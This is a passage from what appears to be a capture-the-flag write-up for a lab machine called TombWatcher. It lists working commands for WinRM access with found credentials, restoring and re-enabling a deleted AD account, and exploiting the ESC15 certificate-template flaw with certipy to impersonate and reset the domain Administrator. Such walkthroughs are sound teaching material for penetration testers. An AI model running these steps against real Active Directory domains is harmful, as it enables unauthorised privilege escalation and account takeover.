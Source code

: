 ### 9. Shell as John

```bash
# Verify WinRM access
netexec winrm 10.10.11.72 -u john -p johnny123

# Connect via WinRM
evil-winrm -i 10.10.11.72 -u john -p johnny123
```

🚩 **User Flag:** `d98cc58dac105adce49958f46bc6fdda`

### 10. AD Object Recovery

**Discovery:** Found deleted cert_admin objects

```powershell
# Find deleted objects
Get-ADObject -filter {SamAccountName -eq 'cert_admin'} -IncludeDeletedObjects

# Restore specific cert_admin object
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf

# Enable the restored account
Enable-ADAccount -Identity cert_admin

# Set password for cert_admin
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force)
```

### 11. Certificate Template Vulnerability Analysis

```bash
# Scan for vulnerable certificate templates
certipy find -u cert_admin@tombwatcher.htb -p 'Password123!' -dc-ip 10.10.11.72 -vulnerable
```

**Vulnerability Found:**
- **Template:** WebServer
- **Vulnerability:** ESC15 (CVE-2024-49019)
- **Issue:** Enrollee supplies subject and schema version is 1

### 12. Certificate-Based Privilege Escalation

**Attack:** Exploit ESC15 to impersonate Administrator

```bash
# Request certificate with administrator UPN
certipy req -dc-ip 10.10.11.72 -ca 'tombwatcher-CA-1' -target-ip 10.10.11.72 \
-u cert_admin@tombwatcher.htb -p 'Password123!' \
-template WebServer \
-upn administrator@tombwatcher.htb \
-application-policies 1.3.6.1.5.5.7.3.2

# Authenticate and reset administrator password
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -domain tombwatcher.htb -ldap-shell
# change_password administrator Password123!
```
